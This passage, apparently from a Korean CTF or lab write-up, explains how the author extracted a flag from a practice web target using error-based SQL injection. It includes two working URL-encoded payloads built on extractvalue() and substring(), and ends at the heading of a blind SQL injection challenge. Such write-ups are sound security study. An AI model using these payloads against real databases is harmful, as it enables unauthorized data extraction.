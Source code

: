 `information_schema.columns`를 활용한 쿼리 결과,
`flags` 테이블에는 `flag_id`, `flag`, `description`, `created_at` 컬럼이 존재함을 확인하였다.

최종적으로 다음과 같은 **에러 기반 SQL Injection 페이로드**를 이용하여 flag 값을 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0aflag%0afrom%0aflags%0alimit%0a0,1)))%0aand%0a'1'='1
```

![spec4 flag](/assets/web-screenshots/blind-error-based-sqli/spec4_flag.png)

플래그를 추출하는 과정에서 응답 길이 제한으로 인해 일부 값이 잘려 출력되는 문제가 발생하였다. 이를 해결하기 위해, 아래와 같은 쿼리를 사용하여 flag 값의 뒷부분을 `substring()` 함수를 통해 분할 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0asubstring(flag,31,32)%0afrom%0aspec4.flags%0alimit%0a0,1)))%0aand%0a'1'='1
```

**이렇게 최종 flag를 얻었다.**

---

## 보안 커뮤니티 (Blind SQLI)


![보안 커뮤니티 board](/assets/web-screenshots/blind-error-based-sqli/spec5.png)
